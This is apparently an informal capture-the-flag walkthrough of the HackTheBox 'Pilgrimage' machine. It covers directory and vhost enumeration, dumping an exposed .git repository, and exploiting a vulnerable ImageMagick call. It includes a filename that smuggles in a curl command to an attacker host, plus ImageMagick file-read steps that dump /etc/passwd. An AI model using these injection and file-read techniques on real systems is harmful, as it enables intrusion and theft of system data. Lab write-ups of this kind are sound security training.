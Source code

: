 ### inital enumeration

nmap results

Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


it has a website

![](20230722182338.png)

it has a register page

its php

so lets go dirb, gobuster

gobuster dir --url http://pilgrimage.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://pilgrimage.htb -t 50 --append-domain

nothing on the subdomain enumeration

### content upload

all shrunk pictures come on the dashboard

where pictures are stored bu there is no lfi here

![](20230722183802.png)

lets try and load a php webshell
there is content restriction it seems

php change did not work


tried to forge  php shell across

![](20230722185519.png)


### other things on website?

and there are other pathways available

/index.php            (Status: 200) [Size: 7621]
/.html                (Status: 403) [Size: 153]
/login.php            (Status: 200) [Size: 6166]
/register.php         (Status: 200) [Size: 6173]
/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> /]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> /login.php]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]

but all of them are forbidden now

### git

also just through drib found that .git repo is also available here

![](20230722184304.png)

but HEAD does not mention much

pip install git-dumper

git-dumper URL DIR

using git-dumper.py

was able to get the source code of the entire thing!

now need to go thorugh the code of the github

emily@pilgrimage.htb>

`exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);

`
this is the function calling it

can we add something in the name itself to make it execute?

"new|curl http://10.10.16.47:8000/iamcurling;".png

![](20230723101916.png)


IMageMagick library has an arbitrary file read vulnerability

and rce .

tested rce did not work

let check out arbitrary file read

after using the magick_exploit.py get the resultant file and usin 

convert downloaded_image.png result.png

identify -verbose result.png

(~)>>> python3 -c 'print(bytes.fromhex("726f6f743a783a726f6f743---REDACTED--").decode("utf-8"))'


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin

![](20230723122440.png)

this works

so we have arbitrary file read



